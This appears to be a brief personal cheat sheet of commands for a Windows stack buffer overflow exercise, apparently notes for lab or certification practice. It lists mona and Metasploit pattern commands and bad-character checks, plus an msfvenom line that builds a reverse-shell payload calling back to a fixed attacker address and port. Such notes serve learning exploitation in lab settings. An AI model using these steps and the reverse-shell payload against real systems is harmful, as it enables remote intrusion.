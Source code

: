 # Buffer Overflow

> Shahrukh Tramboo | February 26th, 2022

--------------------------------------

**Mona Configuration**

```bash
!mona config -set workingfolder c:\mona\%p
```

**create pattern**
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```


**getting pattern offset**
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138
```
or
```bash
!mona findmsp -distance 600
```

**create a bytearray**

using bpython
```
bytearray(range(1,256))
```

**Finding a Jump Point**

```bash
!mona jmp -r esp -cpb "\x00"
```

**Generate Payload**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.17.39.185 LPORT=4444 EXITFUNC=thread -b "\x07\x2d\x2e\xa0" -f py -v shellcode
```


**Finding Bad Characters**

```bash
!mona bytearray -b "\x00"
```

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

```bash
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Make a note of the address to which the ESP register points and use it in the following mona command:

```bash
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

**Check modules**
```bash
!mona modules
```

